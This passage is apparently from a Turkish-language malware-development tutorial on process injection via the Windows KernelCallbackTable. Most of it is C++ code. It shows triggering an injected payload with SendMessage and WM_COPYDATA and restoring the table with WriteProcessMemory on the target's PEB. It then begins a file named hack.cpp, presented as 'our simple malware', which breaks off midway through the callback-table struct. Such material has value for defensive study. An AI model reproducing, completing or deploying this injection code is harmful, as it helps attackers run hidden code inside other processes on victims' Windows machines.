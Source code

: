 Payload'un yürütülmesini tetikleyin:     

```cpp
cds.dwData = 1;
cds.cbData = lstrlen((LPCSTR)msg) * 2;
cds.lpData = msg;

SendMessage(hw, WM_COPYDATA, (WPARAM)hw, (LPARAM)&cds);
```

Son olarak, orijinal `KernelCallbackTable`'ı geri yükleyin:    

```cpp
WriteProcessMemory(ph, 
(PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable), 
&peb.KernelCallbackTable, 
sizeof(ULONG_PTR), NULL);
SendMessage(hw, WM_COPYDATA, (WPARAM)hw, (LPARAM)&cds);
```

Burada, orijinal kodu geri yüklemek ve normal bir şekilde geri yüklendiğinden emin olmak için `SendMessage()` işlevini tekrar çağırdık. Bu, kodun artık çalışmadığını doğrulamamızı sağlar.     

Yani, basit zararlı yazılımımızın tam C++ kodu şu şekilde:     

```cpp
/*
 * hack.cpp - process injection via 
 * KernelCallbackTable. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/01/24/malware-injection-15.html
*/
#include <./ntddk.h>
#include <cstdio>
#include <cstddef>

#pragma comment(lib, "ntdll");

typedef struct _KERNELCALLBACKTABLE_T {
  ULONG_PTR __fnCOPYDATA;
  ULONG_PTR __fnCOPYGLOBALDATA;
  ULONG_PTR __fnDWORD;
  ULONG_PTR __fnNCDESTROY;
  ULONG_PTR __fnDWORDOPTINLPMSG;
  ULONG_PTR __fnINOUTDRAG;
  ULONG_PTR __fnGETTEXTLENGTHS;
  ULONG_PTR __fnINCNTOUTSTRING;
  ULONG_PTR __fnPOUTLPINT;
  ULONG_PTR __fnINLPCOMPAREITEMSTRUCT;
  ULONG_PTR __fnINLPCREATESTRUCT;
  ULONG_PTR __fnINLPDELETEITEMSTRUCT;
  ULONG_PTR __fnINLPDRAWITEMSTRUCT;
  ULONG_PTR __fnPOPTINLPUINT;
  ULONG_PTR __fnPOPTINLPUINT2;
  ULONG_PTR __fnINLPMDICREATESTRUCT;
  ULONG_PTR __fnINOUTLPMEASUREITEMSTRUCT;
  ULONG_PTR __fnINLPWINDOWPOS;
  ULONG_PTR __fnINOUTLPPOINT5;
  ULONG_PTR __fnINOUTLPSCROLLINFO;
  ULONG_PTR __fnINOUTLPRECT;
  ULONG_PTR __fnINOUTNCCALCSIZE;
  ULONG_PTR __fnINOUTLPPOINT5_;
  ULONG_PTR __fnINPAINTCLIPBRD;
  ULONG_PTR __fnINSIZECLIPBRD;
  ULONG_PTR __fnINDESTROYCLIPBRD;
  ULONG_PTR __fnINSTRING;
```